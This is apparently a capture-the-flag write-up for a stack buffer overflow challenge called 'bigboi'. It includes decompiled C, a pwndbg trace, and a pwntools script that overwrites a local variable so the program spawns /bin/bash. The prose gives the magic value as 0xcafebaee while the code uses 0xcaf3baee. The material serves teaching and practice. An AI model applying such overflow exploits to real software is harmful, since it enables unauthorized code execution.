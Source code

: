 
# bigboi

## Enumeration

**24** bytes is being read into an **8** byte buffer, allowing a clobber of the **target** variable to pass the check and execute `/bin/bash`. 

```c
undefined8 main(void)

{
  long in_FS_OFFSET;
  undefined8 buffer;
  undefined8 local_30;
  undefined4 uStack_28;
  int target;
  undefined4 local_20;
  long canary;
  
  canary = *(long *)(in_FS_OFFSET + 40);
  buffer = 0;
  local_30 = 0;
  local_20 = 0;
  uStack_28 = 0;
  target = L'\xdeadbeef';
  puts("Are you a big boiiiii??");
  read(0,&buffer,24); // VULN
  if (target == L'\xcaf3baee') {
    run_cmd("/bin/bash");
  }
  else {
    run_cmd("/bin/date");
  }
  if (canary != *(long *)(in_FS_OFFSET + 40)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return 0;
}
```

## Manual Exploitation

**20** Bytes of padding allows us to change over `0xdeadbeef` to `0xcafebaee`. 

```bash
python3 -c 'import pwn;print(b"A"*20 + pwn.p32(0xcaf3baee))' > payload
```

Check comparison is at main+103

```
pwndbg> disassemble main
   ...
   0x00000000004006a5 <+100>:   mov    eax,DWORD PTR [rbp-0x1c]
   0x00000000004006a8 <+103>:   cmp    eax,0xcaf3baee
   ...
pwndbg> b *(main+103)
Breakpoint 1 at 0x4006a8
```

Running with the payload as input clobbers the area as expected

```
pwndbg> r < payload
```
```
...
 ► 0x4006a8 <main+103>    cmp    eax, 0xcaf3baee     0xcaf3baee - 0xcaf3baee    
...
```

## Automating Exploitation

Python exploit script

```python
#!/usr/bin/python3

from pwn import *

context.log_level = 'ERROR'

context.binary = elf = ELF("./boi", checksec=False)
p = process()

payload = b"A"*20 + p32(0xcaf3baee)

p.sendline(payload)
p.interactive()
```